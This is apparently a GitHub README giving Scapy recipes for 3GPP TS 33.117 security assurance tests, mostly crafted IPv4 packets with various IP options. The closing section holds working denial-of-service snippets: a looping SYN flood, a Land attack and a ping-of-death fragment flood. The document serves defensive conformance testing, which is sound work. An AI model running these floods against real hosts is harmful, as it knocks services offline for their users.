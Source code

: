 # security-assurance-test-cookbook-with-Scapy
This cookbook is for test cases of security assurance requirements defined in 3GPP TS 33.117. All test cases are based on Scapy and verified with Scapy 2.5.0.

## Cover IPv4 options in RFC791 - Start
### Create packet with NOP option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x01\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_NOP(), IPOption_EOL()])

### Create packet with LSR option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x83\x0b\x0c\x0a\x8d\x1a\xa0\x0a\x8d\x1a\xa0\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54", options=[IPOption_LSRR(pointer=12,routers=["1.2.3.4","5.6.7.8"]), IPOption_EOL()])
opt.do_build()

### Create packet with SSR option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x89\x0b\x0c\x0a\x8d\x1a\xa0\x0a\x8d\x1a\xa0\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_SSRR(pointer=12,routers=["1.2.3.4","5.6.7.8"]), IPOption_EOL()])
opt.do_build()

### Create packet with RR option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x07\x0b\x0c\x0a\x8d\x1a\xa0\x0a\x8d\x1a\xa0\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_RR(pointer=12,routers=["1.2.3.4","5.6.7.8"]), IPOption_EOL()])
opt.do_build()

### Create packet with SID option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x88\x04\x00\x01\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_Stream_Id(), IPOption_EOL()])
opt.do_build()

### Create packet with TS option in ICMP timestamp and with dst addr set to next hop switch
- opt=IP(src="10.234.56.78",dst="10.141.24.1",options=b'\x44\x0c\x10\x03\x0a\x8d\x1a\xa0\x00\x00\x00\x01\x00')/ICMP(type=13)
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_Timestamp(), IPOption_EOL()])

## Cover IPv4 options in RFC1108
### Create packet with SEC option
- pt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x82\x0b\xd7\x88\x00\x00\xff\xff\xde\xad\xbe\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_Security(), IPOption_EOL()])

### Create packet with extended SEC option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x85\x07\x01\xde\xad\xbe\xef\x00')

## Cover CIPSO in draft IETF
### Create packet with CIPSO option
opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x86\x0a\xde\xad\xbe\xef\x01\x04\x00\xed\x00')

## Not defined Experimental Measurement(10), ENCODE(15), Unassigned(150), Experimental Access Control(142), IMI Traffic Descriptor(144), 
### Address Extension(147), Selective Directed Broadcast(149), Dynamic Packet State(151), Upstream Multicast Pkt.(152), Experimental Flow Control(205)

## Cover IPv4 options in RFC1063
### Create packet with MTU Probe option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x0b\x04\xde\xad\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_MTU_Probe(), IPOption_EOL()])

### Create packet with MTU reply option
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x0c\x04\xde\xad\x00')
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_MTU_Reply(), IPOption_EOL()])

## Cover IPv4 options in RFC1385
### Create packet with Extended Internet Protocol 
opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x91\x04\xde\xad\x00')

## Cover IPv4 options in RFC1393
### Create packet with TR option in ICMP traceroute
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x52\x0c\x00\x01\x00\x01\x00\x01\x0a\x8d\x1a\xa0\x00')/ICMP(type=30)
- opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_Traceroute(optclass=2), IPOption_EOL()])

## Cover IPv4 options by Ullmann IPv7
### Create packet with Address Extension option
opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_Address_Extension(), IPOption_EOL()])

## Cover IPv4 options in RFC2113
### Create packet with ERTRALT option
opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_Router_Alert(), IPOption_EOL()])

## Cover IPv4 options by Charles Bud Graff
### Create packet with SDB option
opt=IP(src="10.234.56.78",dst="10.98.76.54",options=[IPOption_SDBM(), IPOption_EOL()])

## Cover IPv4 options in RFC4782
### Create packet with QS option
opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x19\x08\x00\x00\x00\x00')

## Cover IPv4 options in RFC3692 and RFC4727
### Not defined EXP options(30, 94, 158, 222)
opt=IP(src="10.234.56.78",dst="224.0.0.254",options=b'\x1d\x08\x00\x00\x00\x00')

## Cover IPv6 extension header in RFC8200
### Create packet with IPv6 Hop-by-Hop Option
opt=IPv6ExtHdrHopByHop()

opt=IP(src="10.234.56.78",dst="10.98.76.54",options=b'\x97\x04\xde\xad\x00')

### Cover common DOS attack - Start
### SYN flooding attack
target_ip="10.234.56.78"
target_port=8002
app=Raw(b"X"*1024)
syn_flood=IP(dst=target_ip)/TCP(sport=RandShort(),dport=target_port,flags="S")/app
send(syn_flood, loop=1, verbose=0)


### Land attack with target set to IP address of target host
land=IP(src="10.234.56.78",dst="10.234.56.78")/TCP(sport=8002,dport=8002,flags="S")
sendp(land, count=5)

### Smurf attack

### Teardrop attack

### Ping-of-death attack
ping_of_death=fragment(IP(dst="10.0.0.9")/ICMP()/("X"*60000))
sendp(ping_of_death, 1000)

